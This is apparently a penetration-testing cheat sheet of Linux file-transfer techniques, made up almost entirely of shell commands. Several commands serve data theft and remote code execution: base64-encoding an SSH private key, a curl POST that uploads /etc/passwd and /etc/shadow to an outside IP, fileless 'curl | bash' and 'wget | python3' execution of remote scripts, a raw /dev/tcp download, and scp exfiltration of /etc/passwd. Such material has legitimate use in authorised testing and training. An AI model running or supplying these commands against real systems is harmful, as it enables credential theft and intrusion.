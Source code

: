 # Linux

## Linux File Transfers

### Base64 Encode & Decode

1. **Check MD5 Hash**

```bash
md5sum id_rsa
```

2. **Encode SSH Key to Base64**

```bash
cat id_rsa |base64 -w 0;echo
```

3. **Decode the File**

```bash
echo -n 'justimaginethisissomerandomhashbecauseyoudontcareandidontcare=` | base64 -d > id_rsa
```

### Web Downloads with Wget and cURL

1. **Download a File Using wget**

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

2. **Download a File Using cURL**

```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Web Upload

Mechanism is similar to Windows web upload using `uploadserver` module:

```bash
sudo python3 -m pip install --user uploadserver
```

**Secure HTTPS Web Server**

1. **Start Web Server**

```bash
sudo python3 -m pip install --user uploadserver
```

2. **Create a Self-Signed Certificate**

```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

3. **Start Web Server**

```bash
mkdir https && cd https
```

```bash
sudo python3 -m uploadserver 443 --server-certificate /root/server.pem
```

* **Upload Multiple Files**

```bash
curl -X POST https://13.13.13.13/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

**Alternative File Transfer Method**

* **Creating a Web Server with Python3**

```bash
python3 -m http.server
```

* **Creating a Web Server with Python2.7**

```bash
python2.7 -m SimpleHTTPServer
```

* **Creating a Web Server with PHP**

```bash
php -S 0.0.0.0:8000
```

* **Creating a Web Server with Ruby**

```bash
ruby -run -ehttpd . -p8000
```

### Fileless Attacks Using Linux

1. **Fileless Download with cURL**

```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

2. **Fileless Download with wget**

```bash
 wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### Download with Bash(/dev/tcp)

1. **Connect to the Target Webserver**

```bash
exec 3<>/dev/tcp/13.13.13.13/80
```

2. **HTTP GET Request**

```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

3. **Print the Response**

```bash
cat <&3
```

### SCP Download

`SSH` is a protocol that allows secure access to remote computers. And we could use `SCP` utility which uses SSH protocol for transferring files

1. **Enabling the SSH Server**

```bash
sudo systemctl enable ssh
```

2. **Starting the SSH Server**

```bash
sudo systemctl start ssh
```

3. **Checking for SSH Listening Port**

```bash
netstat -lnpt
```

4. **Linux - Downloading Files Using SCP**

```bash
scp plaintext@192.168.49.128:/root/myroot.txt .
```

### SCP Upload

* **File Upload with SCP**

```bash
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```
